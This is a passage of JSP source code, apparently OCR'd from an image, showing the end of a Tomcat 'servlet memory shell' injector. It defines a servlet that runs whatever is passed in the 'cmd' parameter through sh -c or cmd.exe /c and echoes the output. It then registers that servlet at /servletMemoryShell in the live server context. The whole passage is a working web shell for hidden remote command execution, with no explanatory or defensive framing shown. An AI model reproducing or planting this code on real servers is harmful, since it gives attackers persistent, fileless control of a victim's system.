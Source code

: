 ```jsp
        }

        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
            HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse) servletResponse;

            if (httpServletRequest.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                httpServletResponse.getWriter().write(output);
                httpServletResponse.getWriter().flush();
            }
        }

        public String getServletInfo() {
            return null;
        }

        public void destroy() {
        }
    };
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(servletMemoryShell);
    wrapper.setServletClass(servletMemoryShell.getClass().getName());

    standardContext.addChild(wrapper);
    standardContext.addServletMapping("/servletMemoryShell", "servletMemoryShell");

    response.getWriter().write("Servlet Inject Successfully...");
%>
```
